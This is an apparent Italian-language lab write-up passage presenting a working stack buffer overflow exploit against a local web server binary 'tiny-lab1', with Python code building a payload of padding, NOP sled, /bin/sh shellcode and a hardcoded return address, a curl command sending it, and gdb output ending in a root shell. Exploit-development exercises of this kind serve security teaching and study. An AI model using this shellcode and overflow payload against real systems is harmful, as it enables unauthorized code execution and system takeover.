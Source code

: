 Di seguito exploit aggiornato con indirizzo:

exploit.py
```
import struct
import urllib
SIZE = 524
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
SHELLCODE_SIZE = 25
NOP = "\x90"
NOP_SIZE = 100
PADDING = "\x41"
PADDING_SIZE = SIZE - SHELLCODE_SIZE - NOP_SIZE
EIP = struct.pack("I", 0xffffd5a4)
PAYLOAD = PADDING*PADDING_SIZE + NOP*(NOP_SIZE/2) + SHELLCODE + NOP*(NOP_SIZE/2)+ EIP
print urllib.quote_plus(PAYLOAD)
```
(il secondo NOP sleed risulta utile nel seguente scenario ma non essenziale)
Eseguito tramite:
```
curl http://localhost:9999/`python exploit.py`
```

Di seguito la dimostrazione finale della fase di exploiting
```
gdb-peda$ r
Starting program: /opt/tiny-lab1
listen on port 9999, fd is 3
[New process 248]
child pid is 248
accept request, fd is 4, pid is 247
HTTP/1.1 404 Not found
Content-length: 14

File not found172.17.0.1:34820 404 - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������1�Ph//shh/bin��P��S��
 ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀ ̀������������������������������������������������������
# uname -a
Linux 283bf557ebdc 4.15.0-48-generic #51-Ubuntu SMP Wed Apr 3 08:28:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
#

```


// rhpco